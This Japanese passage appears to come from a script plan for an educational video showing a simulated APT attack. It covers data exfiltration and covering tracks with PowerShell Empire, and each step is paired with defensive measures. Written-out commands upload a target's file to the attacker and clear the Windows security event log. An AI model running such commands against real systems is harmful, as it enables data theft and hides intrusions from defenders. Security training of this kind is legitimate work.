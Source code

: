 ### ステップ6：データ窃取（Data Exfiltration）

- **目的**: 機密データを盗み出す
- **ツール**: PowerShell Empire
- **手順**:
  1. ターゲットのファイルを探索：
     ```bash
     shell dir C:\Users\[Username]\Documents
     ```
  2. 機密ファイル（例：模擬的な`secrets.txt`）をアップロード：
     ```bash
     upload C:\Users\[Username]\Documents\secrets.txt
     ```
  3. Kali側でファイルを確認
- **動画用の工夫**:
  - 盗まれたファイルの内容を画面表示（例：模擬的な個人情報）
  - 「これが本物のAPTなら、企業秘密が漏洩」と強調
  - **防御策**：データ暗号化、DLPソリューション

### ステップ7：痕跡の消去（Covering Tracks）

- **目的**: 攻撃の痕跡を隠す
- **ツール**: PowerShell Empire
- **手順**:
  1. イベントログをクリア：
     ```bash
     shell wevtutil cl security
     ```
  2. 作成したスケジュールタスクを削除（オプション）：
     ```bash
     shell schtasks /delete /tn EmpireTask /f
     ```
- **動画用の工夫**:
  - ログクリア前後のイベントビューアを比較
  - 「攻撃者は検知を避けるために痕跡を消す」と解説
  - **防御策**：ログのバックアップ、SIEMシステム

### ステップ8：デモのまとめと教訓（動画終盤）

- **目的**: 視聴者に学びを深めさせる
- **説明**:
  - APT攻撃の各フェーズをスライドで振り返り
  - 「攻撃は高度だが、適切な防御で防止可能」と強調
  - 行動喚起：
    - 「セキュリティ意識を高めるトレーニングを」
    - 「定期的なシステム更新と監視を」
- **動画用の工夫**:
  - 模擬Q&Aセッション（事前収集の質問に回答）
  - 最後に「倫理的ハッキングでセキュリティを強化！」と締める

## 動画撮影のポイント
